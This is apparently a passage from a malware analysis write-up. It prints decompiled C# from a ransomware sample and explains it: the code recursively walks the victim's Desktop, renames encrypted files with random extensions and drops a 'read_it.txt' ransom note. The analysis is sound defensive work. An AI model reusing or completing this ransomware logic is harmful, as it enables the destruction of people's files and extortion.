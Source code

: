 ```cs
								File.Move(files[i], files[i] + "." + Program.RandomStringForExtension(4));
							}
							if (flag)
							{
								flag = false;
								File.WriteAllLines(location + "/" + Program.droppedMessageTextbox, Program.messages);
							}
						}
					}
					catch
					{
					}
				}
				string[] directories = Directory.GetDirectories(location);
				for (int j = 0; j < directories.Length; j++)
				{
					Program.encryptDirectory(directories[j]);
				}
			}
			catch (Exception)
			{
			}
		}

```

This function is responsible of encryption directories , it take `location` as an input . This `location` is defined in the `lookForDirectories`  function which refer to the `Desktop`
 directory in windows env . 
 
```cs
	string location = Program.userDir + Program.userName + "\\Desktop";
```

```cs
Program.encryptDirectory(location);
```

The main idea of the function is to loop through the  `Desktop` directory and list all files and subdirectories.  the `getFiles` is responsible of retrieving the files in the `location`  using the class `Directory` which contains a bunch of things that is verified such as : fullpath, userPath, searOption 

`string[] files = Directory.GetFiles(location);`
after this it loop through files , the first thing that the malware checks/validate  the file extension .

`if (Array.Exists<string>(Program.validExtensions, (string E) => E == extension.ToLower()) && fileName != Program.droppedMessageTextbox)`

if the file extension should not be the same as the malware which is indecated in the `droppedMessageTextbo`  which is basicaly the file that the malware write when the encryption is finished and contains the threat actors message 
`private static string droppedMessageTextbox = "read_it.txt";`
